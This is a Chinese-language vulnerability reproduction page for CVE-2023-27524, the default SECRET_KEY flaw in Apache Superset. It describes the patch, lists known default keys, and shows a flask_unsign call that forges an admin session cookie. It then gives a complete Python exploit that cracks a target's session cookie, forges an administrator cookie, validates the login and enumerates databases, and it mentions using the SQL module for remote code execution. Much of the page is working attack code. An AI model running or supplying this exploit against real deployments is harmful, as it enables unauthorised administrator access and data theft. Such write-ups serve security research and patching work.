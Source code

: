 # Apache Superset SECRET_KEY 未授权访问漏洞 CVE-2023-27524

## 漏洞描述

Apache Superset 是一款现代化的开源大数据工具，也是企业级商业智能 Web 应用，用于数据探索分析和数据可视化。它提供了简单易用的无代码可视化构建器和声称是最先进的 SQL 编辑器，用户可以使用这些工具快速地构建数据仪表盘。CVE-2023-27524 中，未经授权的攻击者可根据默认配置的SECRET_KEY伪造成管理员用户访问Apache Superset。

## 漏洞影响

<a-checkbox checked>Apache Superse <= 2.0.1</a-checkbox>

## 网络测绘

<a-checkbox checked>app.name="Apache Superset"</a-checkbox>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682838138564-7fdfca89-2f1f-4a36-a4a5-dbae861921cf.png)

漏洞修复补丁

```python
https://github.com/apache/superset/pull/23186/files
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682859425929-72e075c9-aa9d-471a-895c-00534946bc37.png)

补丁代码中，新建了判断用户是否使用了默认的Key进行配置，如果为默认的Key，就直接中断启动,。但在 Docker的 env 下还是添加了固定的 Key: TEST_NON_DEV_SECRET

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682859727857-32f7b8ab-6d79-4510-bd8a-7c35ffeb9a01.png)

```python
# https://github.com/horizon3ai/CVE-2023-27524/blob/main/CVE-2023-27524.py
SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]
```

这里拿Docker下的环境举例

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682860108549-f0304837-46e6-4aa3-8293-3c0d47adf837.png)

初次请求时会获取到 Cookie, 使用默认Key验证 Cookie是否可被伪造

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682860244029-b3144d4b-6738-43fe-a210-862fd5f7b402.png)

登陆主页面观察主要参数

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682863386090-2b976333-180d-41b5-ae83-065b9157b1f9.png)

通过设置参数 user_id 和 _user_id 为 1 ,构造加密Cookie

```python
>>> from flask_unsign import session
>>> session.sign({'_user_id': 1, 'user_id': 1},'TEST_NON_DEV_SECRET')
'eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZE51uw.EdD7zSzojgY4keqZLOKR4GndJf8'
```

利用构造的 Cookie就可以获取到 Web后台管理权限, 后台中存在数据库语句执行模块，通过设置允许执行其他数据库语句后利用数据库语句 RCE

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682860028858-f8ba38e4-1bce-404f-8644-d48e04c2232e.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682859997832-1b07ff2f-779d-408b-9700-df1a154f3c7d.png)





## 漏洞POC

```python
from flask_unsign import session
import requests
import urllib3
import argparse
import re
from time import sleep
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]

def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('--url', '-u', help='Base URL of Superset instance', required=True)
    parser.add_argument('--id', help='User ID to forge session cookie for, default=1', required=False, default='1')
    parser.add_argument('--validate', '-v', help='Validate login', required=False, action='store_true')
    parser.add_argument('--timeout', '-t', help='Time to wait before using forged session cookie, default=5s', required=False, type=int, default=5)
    args = parser.parse_args()

    try:
        u = args.url.rstrip('/') + '/login/'

        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0'
        }

        resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
        if resp.status_code != 200:
            print(f'Error retrieving login page at {u}, status code: {resp.status_code}')
            return

        session_cookie = None
        for c in resp.cookies:
            if c.name == 'session':
                session_cookie = c.value
                break

        if not session_cookie:
            print('Error: No session cookie found')
            return

        print(f'Got session cookie: {session_cookie}')

        try:
            decoded = session.decode(session_cookie)
            print(f'Decoded session cookie: {decoded}')
        except:
            print('Error: Not a Flask session cookie')
            return

        match = re.search(r'&#34;version_string&#34;: &#34;(.*?)&#34', resp.text)
        if match:
            version = match.group(1)
        else:
            version = 'Unknown'

        print(f'Superset Version: {version}')


        for i, k in enumerate(SECRET_KEYS):
            cracked = session.verify(session_cookie, k)
            if cracked:
                break

        if not cracked:
            print('Failed to crack session cookie')
            return

        print(f'Vulnerable to CVE-2023-27524 - Using default SECRET_KEY: {k}')

        try:
            user_id = int(args.id)
        except:
            user_id = args.id

        forged_cookie = session.sign({'_user_id': user_id, 'user_id': user_id}, k)
        print(f'Forged session cookie for user {user_id}: {forged_cookie}')

        if args.validate:
            try:
                headers['Cookie'] = f'session={forged_cookie}'
                print(f'Sleeping {args.timeout} seconds before using forged cookie to account for time drift...')
                sleep(args.timeout)
                resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
                if resp.status_code == 302:
                    print(f'Got 302 on login, forged cookie appears to have been accepted')
                    validated = True
                else:
                    print(f'Got status code {resp.status_code} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')
            except Exception as e_inner:
                print(f'Got error {e_inner} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')

            if not validated:
                return

            print('Enumerating databases')
            for i in range(1, 101):
                database_url_base = args.url.rstrip('/') + '/api/v1/database'
                try:
                    r = requests.get(f'{database_url_base}/{i}', headers=headers, verify=False, timeout=30, allow_redirects=False)
                    if r.status_code == 200:
                        result = r.json()['result'] # validate response is JSON
                        name = result['database_name']
                        print(f'Found database {name}')
                    elif r.status_code == 404:
                        print(f'Done enumerating databases')
                        break # no more databases
                    else:
                        print(f'Unexpected error: status code={r.status_code}')
                        break
                except Exception as e_inner:
                    print(f'Unexpected error: {e_inner}')
                    break


    except Exception as e:
        print(f'Unexpected error: {e}')


if __name__ == '__main__':
    main()
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682838210558-fb15ac75-f3d7-43cd-8d26-511fec0fd9a1.png)